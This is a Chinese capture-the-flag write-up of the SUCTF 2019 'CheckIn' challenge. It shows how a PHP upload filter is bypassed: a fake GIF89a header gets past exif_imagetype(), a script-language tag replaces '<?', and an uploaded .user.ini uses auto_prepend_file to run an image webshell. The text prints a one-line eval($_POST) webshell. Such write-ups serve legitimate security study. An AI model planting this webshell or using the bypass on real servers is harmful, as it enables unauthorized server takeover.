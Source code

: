 # \[SUCTF 2019]CheckIn

## \[SUCTF 2019]CheckIn

## 考点

* exif\_imagetype()函数绕过
* 文件上传.user.ini

## wp

随便上传一个php文件试试

![](<../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png>)

上传一个空的gif文件（就是新建空白txt再把后缀改成gif）判断有没有检查其他东西，会提示`exif_imagetype:not image!`，加上文件头`GIF89a`，就成功了。

试试上传正常图片

![](<../.gitbook/assets/image (26) (1) (1) (1) (1).png>)

这儿可以猜测是`exif_imagetype()`函数判断是不是图片，在文件头添加图片头就可以绕过了，例如gif的文件头GIF89a

然后制作图片马上传

![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)

&#x20;上传条件

1. 不能上传带有`<?`的文件，使用`<script language="php">xxx</script>`绕过
2. 上传的文件必须含有图片头

考虑使用.htaccess，但是这个服务器是nginx，而.htaccess是针对apache的。那么这里利用是 .user.ini ，而且.user,ini利用的范围比.htaccess更广

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP\_INI\_SYSTEM、PHP\_INI\_PERDIR、PHP\_INI\_ALL、PHP\_INI\_USER

![](<../.gitbook/assets/image (14) (1) (1).png>)

`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为`PHP_INI_PERDIR` 、 `PHP_INI_USER`的设置。

在php配置项中有两个比较有意思的项`auto_prepend_file`和`auto_append_file`，相当于指定一个文件，要执行脚本前自动包含，类似于在脚本文件前调用了require()函数。`auto_prepend_file`是在脚本文件前插入，而`auto_append_file`是在脚本文件最后才插入。

那么思路就有了，先上传图片马，然后利用.user.ini解析图片马，进行getshell

上传的.user.ini

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

上传的shell，常用一句话`GIF89a? <script language="php">eval($_POST[1])</script>`

![](<../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

然后直接访问`/uploads/04b0951938d905b41348c1548f9c338b/`即可，因为`auto_prepend_file`自动包含了`shell.gif`

## 小结

1. 不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用`.php.ini`。
2. [user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
